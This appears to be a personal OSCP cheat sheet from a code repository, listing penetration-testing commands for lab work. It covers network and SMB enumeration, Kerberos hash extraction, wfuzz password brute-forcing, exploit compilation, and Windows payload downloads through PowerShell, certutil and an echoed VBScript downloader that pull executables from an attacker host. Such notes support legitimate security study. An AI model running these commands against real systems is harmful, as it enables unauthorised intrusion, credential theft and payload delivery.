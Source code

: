 # oscp-notes

here is a collection of commands i often use for penetration testing. i know there are hundreds of OSCP command guides/references, this is mostly for personal use and therefore the explanations for each command will be as fleshed out as i need them to be. also bear in mind that this is not a complete list.

note: sometimes i will use "ip-addr" to indicate where a target ip should go, sometimes 10.xx.xx.xx, etc
some of these commands i gleaned from working within the HTB labs, not just pwk lab work.

######enumeration

**service and safe scripts scan of an ip/network range**

-oN saves the output in nmap formatting (-oA saves output in xml/nmap/grep format)

`nmap -sC -sV ip-addr -oN '/root/Documents/[ip-addr]/initial.nmap'`

**udp scan**

`nmap -sU ip-addr`

**full port scan**

`nmap -p- ip-addr`

**OS fingerprint** 

`nmap -O ip-addr`

**snmp enumeration**

`nmap -sU -p 161 --script=snmp-brute -Pn 10.xx.x.xxx --script-args snmp-brute.communitiesdb=common-snmp-community-strings.txt`

**snmpwalk**

`snmpwalk 10.xx.x.xxx:161 -v 1 -c public`

**snmpwalk open tcp ports**

`snmpwalk -c public -v1 10.xx.x.xxx 1.3.6.1.2.1.6.13.1.3 `

**snmpwalk windows processes**

`snmpwalk -c public -v1 10.11.1.128 1.3.6.1.2.1.25.4.2.1.2`

**gobuster using default wordlist and scanning for specific statuses**

`gobuster -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.xx.xx.xx:8080/ -s '200,204,301,302,307,403,500' -o gobuster-common.txt`

**gobuster -- fuzzing for file (vs. dir)**

`gobuster -u http://10.xx.xx.xx -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x aspx -o gobuster-default-aspx.txt`

**gobuster ignore ssl cert**

`gobuster -k`

**wordpress?**

`wpscan -u ip-addr`

**nikto**

`nikto -h ip-addr -output output.txt`

**various methods of enumerating smb shares/servers**

`nmblookup -A 10.xx.xx.xx`

`enum4linux -A 10.xx.xx.xx`

note: enum4linux is finnicky on the pwk vm

**smbclient**

-L | list  -I | ip-address  -N | no-pass

`smbclient -L \\SERVER -I xx.xx.xx.xx -N`

`smbclient //SERVER/share -I xx.xx.xx.xx -N`

**enum kerberos users**

`nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='CHANGEME.local',userdb=/usr/share/seclists/Usernames/Names/names.txt -oA '/root/Documents/10.xx.xx.xx_88_kerberos' 10.xx.xx.xx`

**obtain hash from kerberos user**

cd /opt/impacket/examples

`python GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -format hashcat -outputfile hashes.forest`

**wfuzz bruteforce http login**

observe the POST request in Burp,  plug in the user and password DOM elemenets into the commmand; here the user login is defined by user_login, and the password is defined as pass

we run it first without specifying a character count to ignore, and once we see what the failed login character count is, we ignore that (--hh), so that any different character count that occurs indicates a successful login (or, something that isn't a failed login)

`wfuzz -z file,/usr/share/wordlists/rockyou.txt -d "user_login=admin&pass=FUZZ" --hh 9471 http://10.xx.xx.xx/admin.php`

**wfuzz fuzz**

wfuzz --hc 404 -c -z file,/usr/share/wfuzz/wordlist/general/big.txt http://10.xx.x.xxx/webmail/src/FUZZ.php

######exploitation

**compile for centos on kali**

(unsure if this is applicable just for centos or other distros)

`gcc -Wl,--hash-style=both -m32 -o exploit 9545.c`

**compile windows exe on linux**

`i686-w64-mingw32-gcc 646-fixed.c -lws2_32 -o 646.exe`

**windows file download**

if system is recent enough/powershell is installed:

`powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.xx.xx.xx/afd.exe','c:\wamp\tmp\afd.exe')`

if certutil is available:

`certutil.exe -urlcache -split -f "http://10.xx.xx.xx/afd.exe" c:\wamp\temp\afd.exe`

if neither is an option, echo this script into a new file:


`
echo strUrl = WScript.Arguments.Item(0) > wget.vbs

echo StrFile = WScript.Arguments.Item(1) >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs

echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs

echo Err.Clear >> wget.vbs

echo Set http = Nothing >> wget.vbs

echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs

echo http.Open "GET", strURL, False >> wget.vbs

echo http.Send >> wget.vbs

echo varByteArray = http.ResponseBody >> wget.vbs

echo Set http = Nothing >> wget.vbs

echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs

echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs

echo strData = "" >> wget.vbs

echo strBuffer = "" >> wget.vbs

echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs

echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs

echo Next >> wget.vbs

echo ts.Close >> wget.vbs

`